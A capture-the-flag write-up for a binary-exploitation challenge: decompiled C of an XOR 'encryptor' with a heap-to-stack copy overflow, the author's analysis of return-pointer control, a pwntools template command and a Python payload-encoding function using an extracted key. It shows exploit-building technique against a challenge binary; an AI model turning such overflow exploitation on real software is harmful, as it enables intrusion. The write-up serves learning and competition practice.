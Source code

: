 ```c
      "What if i told you we can use TWO seperate keys for our encryption, and we keep the keys seuc re on our server? No one will ever figure that out!"
      );
  puts("EPT presents, THE SECURE(tm) XOR ENCRYPT0R!");
  heap_mem = (char *)malloc(160);
  printf("Enter ciphertext\n> ");
  fgets(heap_mem,160,stdin);
  strlength = strlen(heap_mem);
  for (i = 0; (ulong)(long)i <= strlength >> 4; i = i + 1) {
    xorit(heap_mem + (i << 4),keys + (long)(i % 2) * 0x10);
  }
  memcpy(local_98,heap_mem,strlength);
  printf("the results:\n");
  write(1,local_98,strlength);
  return local_c;
}
```

Analysing this shows that the heap_mem buffer of max 160 bytes is xored 16 bytes a time with alternating keys. These keys are however contiguous in memory, so xoring with the entire 32 byte array works the same.

Then the 160 byte buffer is copied into a 120 byte buffer on the stack, giving us 40 bytes of overflow and probably controlling the return pointer of main(). First, however we have to xor the payload with the key to make the `xorit` function unpack the intended payload in memory instead of `securely encrypting` it.


## A way to a solve

### solve script skeleton

```
pwn template --quiet --host=io.ept.gg --port=30012 ./xored > solve.py
```

### Xor function

I extracted the key from Ghidra by copying as a python byte string. This is actually all printable ascii, but I didn't notice until later.
Xor each byte of the buffer with the key and we should get a usable payload.

```python
def CodeIt(payload):
    key = b'\x4b\x75\x43\x4f\x4c\x63\x35\x50\x49\x48\x33\x6d\x67\x50\x36\x6e\x4a\x78\x46\x33\x44\x42\x48\x58\x62\x44\x48\x53\x71\x4d\x30\x59'
    result = b''
    for i in range(len(payload)):
        result += int.to_bytes((payload[i] ^ key[i%32]),1,'little')
    return result
```
(yes I'm a C programmer, can you tell? Jeg sminker ikke liket i etterkant for denne anledningen heller :shrug:)
